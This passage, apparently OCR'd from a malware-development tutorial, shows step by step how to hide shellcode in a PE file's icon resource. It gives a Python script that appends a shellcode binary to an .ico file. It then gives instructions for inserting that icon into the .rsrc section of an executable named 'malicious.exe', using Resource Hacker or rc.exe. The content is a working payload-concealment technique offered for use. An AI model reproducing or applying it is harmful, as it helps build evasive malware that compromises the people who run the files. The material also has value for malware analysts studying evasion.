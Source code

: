 You can automate this process with a Python script:

```
# Python script to embed shellcode into an icon file
def embed_shellcode(icon_path, shellcode_path, output_path):
with open(icon_path, "rb") as icon_file:
icon_data = icon_file.read()
with open(shellcode_path, "rb") as shellcode_file:
shellcode_data = shellcode_file.read()

# Embed shellcode at the end of the icon file
modified_icon = icon_data + shellcode_data

with open(output_path, "wb") as output_file:
output_file.write(modified_icon)

# Example usage
embed_shellcode("icon.ico", "shellcode.bin", "icon_with_shellcode.ico")
```

#### Step 3: Embed the Icon File in the PE File

Once the icon is prepared, you need to add it to the `.rsrc` section of your PE file.

**Option 1: Use Resource Hacker**

1\. **Open Resource Hacker:**

- Download and install Resource Hacker.
- Open your PE file (e.g., `malicious.exe`) in Resource Hacker.

2\. **Add the Modified Icon:**

- Navigate to `Action > Add a New Resource`**.**
- Select your modified icon (`icon_with_shellcode.ico`**)** and add it to the `.rsrc` section under the `ICON` group.
- Save the changes.

3\. **Verify:**

Check if the PE file now has the `.rsrc` section containing the new icon.

**Option 2: Using Windows** `mt.exe`

The `mt.exe` tool, included in the Windows SDK, allows you to embed resources into a PE file.

1\. **Prepare a Resource Script (**`.rc` **File):**

- Create a file named `resource.rc` with the following content:

```
ICON ICON "icon_with_shellcode.ico"
```

2\. **Compile the Resource File:**

- Compile the resource script into a resource object file (`.res`) using `rc.exe`:

```
rc.exe resource.rc
```
